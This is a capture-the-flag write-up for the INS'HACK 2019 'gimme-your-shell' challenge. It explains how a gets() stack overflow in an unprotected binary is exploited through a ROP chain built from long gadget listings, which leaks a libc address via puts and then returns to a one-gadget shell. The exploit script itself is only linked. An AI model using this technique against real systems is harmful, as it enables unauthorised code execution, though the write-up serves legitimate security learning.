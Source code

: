 ### writeup by p4w@beerPWN team

# INS'HACK 2019 CTF
## gimme-your-shell PWN challnge

This is not the intended solution for this challenge since i used ROP to solve it.
We have a 64-bit <a href="./weak">binary</a> and the libc of the remote server is NOT provided.
Let's start with a little bit of reverse on the binary.
As we can see from the image below the main() function will call the vuln() function.

![alt text](images/main.png)

The assembly of vuln() function show us that dangerous function 'gets()' will be used.

![alt text](images/vuln.png)

As we can see from the man page the gets(*s) function will read until \n or EOF, but there is no control on how many byte it will read and consequently write into *s.

![alt text](images/man_gets.png)

By reading the vuln function we can see that the argument for the gets function will be a variable located into the stack.
So what we expect from this is a stack-buffer overflow.
Let's verify this:

![alt text](images/segfault.png)

Segfault! After 24 bytes we can overwrite the saved ret address.
<br>
Let's also check for the protection on the binary
```
$ checksec ./weak
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
As we can see the binary has no protection at all. So potentially we can also inject a shellcode into the stack and jump on it, but instead of this i managed to do full ROP.
What i want to do to solve this challenge was make a memory-leak, restart execution and then ret2libc address to gain a shell.
So what i did at this point was start to find some gadgets.
```
$ ROPgadget --binary ./weak --depth 40
```

### The problem
As we can see from the dump there are NOT simple gadget like `pop rdi` to control registers.
```
$ ROPgadget --binary ./weak --depth 40 |grep pop|grep ret
0x0000000000400519 : add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400510 : add byte ptr [rax + 0x39], cl ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400509 : add byte ptr [rax - 0x75], cl ; add eax, 0x20050f ; cmp rax, rbx ; jb 0x400512 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051b : add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050c : add eax, 0x20050f ; cmp rax, rbx ; jb 0x40050f ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050e : add eax, 0x39480020 ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400698 : add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051e : add esp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051d : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050f : and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050c ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069b : clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069a : cmp eax, -1 ; jne 0x40069b ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400512 : cmp eax, ebx ; jb 0x400509 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400699 : cmp rax, -1 ; jne 0x40069c ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400511 : cmp rax, rbx ; jb 0x40050a ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400513 : fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069e : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400514 : jb 0x400507 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069d : jne 0x400698 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400516 : mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400697 : mov eax, dword ptr [rbx] ; cmp rax, -1 ; jne 0x40069e ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050b : mov eax, dword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400510 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400696 : mov rax, qword ptr [rbx] ; cmp rax, -1 ; jne 0x40069f ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050a : mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400511 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400693 : or bh, bh ; ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400507 : or byte ptr [rax], ah ; mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400514 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400522 : pop rbp ; ret
0x0000000000400521 : pop rbx ; pop rbp ; ret
0x0000000000400638 : pop rsp ; and al, 8 ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
0x000000000040069c : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400695 : ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400518 : sti ; add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050d : syscall ; and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050e ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
```
Then i start to search for more complicated gadgets that chained together they will make me get control over rdi register (at least).
The first gadget that i picked was this one:
```
0x0000000000400637 : mov ebx, dword ptr [rsp + 8] ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
```
and this is the second one:
```
0x0000000000400620 : mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12 + rbx*8]
```
With the first one we can basically get control over `ebx, rbp, r12, r13, r14, r15` by writing double/quad words into the stack at the correct offsett.<br>
Then we can use the second gadget that end with a *call* instruction to make a call on a function that we want.<br>
Since for now i just want to leak some libc address i'm just interesting on controlling rdi register with some GOT address and then call puts@GOT.
The second gadget make a `mov edi, r13d` then we need to place leak-addr@GOT into `r13` with the first gadget in this way, when we land on the second gadget, the contents of `r13` will be placed into `rdi`.
I also need to make a call on puts() with the second gadget, then i need to set `rbx=0` and `r12=puts@GOT`, and again i can do that with the first gadget.
We just need one more little thing to make all work, look closely at the second gadgets

![alt text](images/second_gdt.png)

after the call instruction we have three instruction
```
000000000040062d         add        rbx, 0x1
0000000000400631         cmp        rbx, rbp
0000000000400634         jne        loc_400620
```
basically it's a loop. To exit from that loop and go over we need to make `rbx=rbp`, then with the first gadget we need to set `ebx=0` and `rbp=1`.
<br>
Now that we are able to leak we just need restart execution to repeat the buffer-overflow again and this time (after <a href="https://libc.blukat.me/">libc version evaluation</a>) we can overwrite the ret address with one-gadget to gain the shell.
<br>
Getting the flag :)

![alt text](images/flag.png)

You can check the full <a href="./x.py">exploit</a> here.

After the CTF, speaking with the admin i discovered that the intended way for this one was simply to jump on a shellcode since the stack was executable. I didn't manage to do it that way cause i assumed the ASLR was enabled on the remote system, but i was WRONG. Actually the ASLR was disabled and then we can predict where the shellcode will be placed. So i did a mistake but i managed to solve it in another way, and sinceraly I'm happy of that just because I could learn more doing it.
<br>
Cheers, p4w ;)
